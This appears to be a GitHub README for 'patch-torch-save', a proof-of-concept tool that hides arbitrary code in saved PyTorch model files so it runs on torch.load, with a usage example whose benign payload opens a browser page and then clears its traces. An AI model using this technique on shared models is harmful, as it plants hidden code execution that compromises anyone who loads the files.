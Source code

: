 # patch-torch-save
Patches the torch.save function with arbitrary code that gets executed upon torch.load.
Works well with the hugging face hub.

Try it out here: [https://huggingface.co/ykilcher/totally-harmless-model](https://huggingface.co/ykilcher/totally-harmless-model)

## Usage
```python
# save a model with injected code

import patch_torch_save
from transformers import AutoModel

def open_browser():
    import webbrowser
    webbrowser.open("https://www.patreon.com/yannickilcher")
    import sys
    del sys.modules["webbrowser"]
    del webbrowser

patched_save_function = patch_torch_save.patch_save_function(open_browser)

model = AutoModel.from_pretrained("distilbert-base-uncased")
model.save_pretrained("./local_folder", save_function=patched_save_function) # optionally, upload to HF hub


# later...

from transformers import AutoModel

model = AutoModel.from_pretrained("./local_folder") # or load from HF hub
print(model) # it's just a normal model... but check your browser

```

## Installation
```bash
pip install git+https://github.com/yk/patch-torch-save
```
